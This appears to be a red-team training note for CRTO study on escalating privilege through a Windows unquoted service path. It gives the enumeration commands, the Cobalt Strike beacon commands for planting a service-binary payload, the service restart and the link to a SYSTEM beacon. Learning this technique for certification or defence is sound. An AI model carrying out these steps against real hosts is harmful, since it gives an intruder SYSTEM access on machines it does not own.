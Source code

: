 An unquoted service path is where the path to the service binary is not wrapped in quotes. Why is that a problem? By itself it's not, but under specific conditions it can lead to an elevation of privilege.

### 🚀 - Enumeration
---
1. Using WMI:
`beacon> run wmic service get name, pathname`
```
Name                    PathName
ALG                     C:\Windows\System32\alg.exe
AppVClient              C:\Windows\system32\AppVClient.exe
Sense                   "C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"
[...snip...]
VulnService1            C:\Program Files\Vulnerable Services\Service 1.exe
```

We can see that the paths for ALG and AppVClient are not quoted, but the path for Sense is. The difference is that this latter path has _spaces_ in them. VulnService1 has spaces in the path _and_ is also not quoted - this is condition #1 for exploitation.

When Windows attempts to read the path to this executable, it interprets the space as a terminator. So, it will attempt to execute the following (in order):

1. `C:\Program.exe`
2. `C:\Program Files\Vulnerable.exe`
3. `C:\Program Files\Vulnerable Services\Service.exe`

If we can drop a binary into any of those paths, the service will execute it before the real one. Of course, there's no guarantee that we have permissions to write into either of them - this is condition #2.

Check writing permissions:

`beacon> powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl`

We need to see if the group we belong to can Create Files in the folder.

2) You can also use a tool like [SharpUp](https://github.com/GhostPack/SharpUp) for this:

`beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath`

Once you make sure you can write, generate a payload and drop it. 

### 📜 Payload Generation

In a tool like [[Cobalt Strike]] in order to abuse a service you must use "service binaries" for the payload, because they need to interact with the Service Control Manager.  When using the "Generate All Payloads" option, these have svc in the filename.   I recommend the use of TCP beacons (tcp-local_x64.svc.exe) bound to localhost only for privilege escalations. 

Create a [[Raw TCP Listener]] for this payload. 

### 📦 Payload Execution

When pasting the file into the victim, change its name accordingly to the service you want to replace.

```
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe Service.exe
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 290kb    fil     03/03/2021 11:11:27   Service.exe
```

Once uploaded, restart the service

```
beacon> run sc stop VulnService1

SERVICE_NAME: VulnService1 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

beacon> run sc start VulnService1
```

Standard users cannot stop or start services by default, so you would usually need to wait for a computer reboot.

When you start the service, you'll see its state will be **START_PENDING**.  If you then check its status with `sc query VulnService1`, you'll see it will be **STOPPED**.  This is by design.  You will also not see a Beacon appear in the UI automatically.  But you should see the port you used in your TCP listener configuration (in my case 4444) is now listening on 127.0.0.1.
```
beacon> run netstat -anp tcp
[...snip...]
TCP    127.0.0.1:4444         0.0.0.0:0              LISTENING
```

Then, connect to the listener:

```
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.123.102
```
![[system-beacon.png]]

--- 

### Properties
---
📆 created   {{10-02-2024}} 12:07
🏷️ tags: #redteam #crto 

---
